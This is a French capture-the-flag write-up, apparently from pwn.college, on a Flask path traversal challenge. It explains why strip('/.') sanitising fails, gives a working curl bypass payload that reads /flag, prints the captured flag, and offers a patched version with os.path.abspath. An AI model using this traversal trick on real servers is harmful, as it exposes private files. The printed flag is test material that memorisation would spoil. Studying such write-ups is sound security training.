

## Description du Challenge
Ce niveau complexifie la validation des entrées. Le développeur tente d'empêcher la remontée de répertoire en nettoyant le chemin fourni par l'utilisateur. L'objectif reste le même : exploiter les faiblesses de cette implémentation pour lire le fichier `/flag`.

---

## Analyse du Code Source
Le serveur web repose sur le code Python suivant :

```python
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import flask
import os

app = flask.Flask(__name__)

@app.route("/serve", methods=["GET"])
@app.route("/serve/<path:path>", methods=["GET"])
def challenge(path="index.html"):
    requested_path = app.root_path + "/files/" + path.strip("/.")
    print(f"DEBUG: {requested_path=}")
    try:
        return open(requested_path).read()
    except PermissionError:
        flask.abort(403, requested_path)
    except FileNotFoundError:
        flask.abort(404, f"No {requested_path} from directory {os.getcwd()}")
    except Exception as e:
        flask.abort(500, requested_path + ":" + str(e))

app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

### Mécanisme de Défense & Vulnérabilité
Comme au niveau précédent, la route utilise le convertisseur `<path:path>` de Flask afin de supporter les slaches (`/`). Cependant, le développeur a ajouté une mesure de sécurité :

```python
requested_path = app.root_path + "/files/" + path.strip("/.")
```

**La faille de logique :** La fonction `path.strip("/.")` supprime uniquement les caractères `/` et `.` situés **au tout début et à la toute fin** de la chaîne. Elle ne modifie absolument pas le milieu de la chaîne.

---

## Pourquoi le premier Payload a échoué ?

En tentant le payload naïf :
```bash
curl -v --path-as-is http://challenge.localhost/serve/./../../../flag
```

L'application reçoit la chaîne `./../../../flag`. Elle applique ensuite `.strip("/.")` :
1. Le `./` initial est détecté au début et se fait nettoyer.
2. Il ne reste plus que `../../../flag`.
3. Le bloc `../../../` se retrouve alors au début de la chaîne et se fait à son tour nettoyer par le comportement itératif de `strip()`.
4. La chaîne finale transmise à l'application devient simplement : `flag`.

L'application tente alors d'ouvrir `/challenge/files/flag`, ce qui retourne une erreur `404 Not Found` :
```html
<p>No /challenge/files/flag from directory /home/hacker</p>
```

---

## Contournement (Bypass)

Pour neutraliser l'effet de `.strip("/.")`, il suffit de s'assurer que le premier caractère de notre paramètre `path` ne soit **ni un point, ni un slash**. De cette manière, la fonction `strip` ne nettoie absolument rien.

En inspectant la réponse d'un simple `curl http://challenge.localhost:80/serve`, on remarque la présence de fichiers d'exemples dans un répertoire nommé `fortunes/` (ex: `fortunes/fortune-1.txt`).

Nous pouvons injecter ce répertoire légitime (ou même un dossier inexistant) au début de notre payload. La chaîne commençant par la lettre `f`, `.strip("/.")` reste sans effet.

### Payload Final
```bash
curl -v --path-as-is http://challenge.localhost/serve/fortunes/../../../flag
```

* **Traitement par l'application :** `fortunes/../../../flag` commence par `f`, donc aucun nettoyage n'est effectué.
* **Résolution système :** `/challenge/files/fortunes/../../../flag` remonte avec succès jusqu'à la racine pour cibler `/flag`.

### Résultat


```text
pwn.college{cbfLx5fkxXhv1L3fgQ8ripnrp_Z.QXyYTN2wSM5EjN3EzW}
```

---

## Comment Patcher la Vulnérabilité ?

L'utilisation de fonctions de manipulation de chaînes comme `.strip()` ou `.replace()` pour bloquer des attaques de type *Path Traversal* est une mauvaise pratique (**blacklist**).

La correction sécurisée consiste à utiliser **`os.path.abspath()`** combiné à une vérification stricte du préfixe (**whitelist**) :

```python
# CODE CORRIGÉ
@app.route("/serve/<path:path>", methods=["GET"])
def challenge(path="index.html"):
    # 1. Définir de manière absolue le dossier racine autorisé
    base_dir = os.path.abspath(app.root_path + "/files/")
    
    # 2. Joindre et résoudre de manière absolue le chemin utilisateur
    # os.path.abspath va automatiquement résoudre et éliminer les "../"
    requested_path = os.path.abspath(os.path.join(base_dir, path))
    
    # 3. Vérifier la stricte appartenance au répertoire de base
    if not requested_path.startswith(base_dir):
        flask.abort(403, "Accès interdit : Tentative de Path Traversal.")
        
    print(f"DEBUG: {requested_path=}")
    try:
        return open(requested_path).read()
    except FileNotFoundError:
        flask.abort(404, "Fichier introuvable.")
```

***3ch0 training***
